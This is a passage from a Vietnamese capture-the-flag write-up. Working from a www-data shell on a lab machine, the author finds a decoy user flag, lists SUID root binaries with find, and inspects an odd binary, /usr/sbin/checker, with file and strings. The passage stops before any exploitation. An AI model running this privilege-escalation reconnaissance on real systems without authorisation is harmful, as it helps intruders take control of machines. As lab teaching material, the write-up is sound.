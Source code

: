 ```python
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Trong */home* directory tôi có user *bjoel*, tuy nhiên *user.txt* trong đây chỉ là 1 cú lừa :shit: 

```python
www-data@blog:/home/bjoel$ cat user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER
www-data@blog:/home/bjoel$ 
```

Chắc chắn là không có password để sử dụng `sudo -l` nên tôi sẽ thử tìm file với user *root* và quyền chạy với *root* 

```python
www-data@blog:/$ find / -type f -user root -perm -u=s 2>/dev/null
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/sbin/checker
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
...
www-data@blog:/$ file /usr/sbin/checker
/usr/sbin/checker: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6cdb17533a6e02b838336bfe9791b5d57e1e2eea, not stripped
```

Tôi thấy ở đây có 1 file tên *checker* khá lạ, nhìn qua thì nó là 1 file binary. Thử phân tích nó xem sao

```python
www-data@blog:/$ strings /usr/sbin/checker
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
puts
getenv
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
=9       
AWAVI
AUATL
[]A\A]A^A_
```
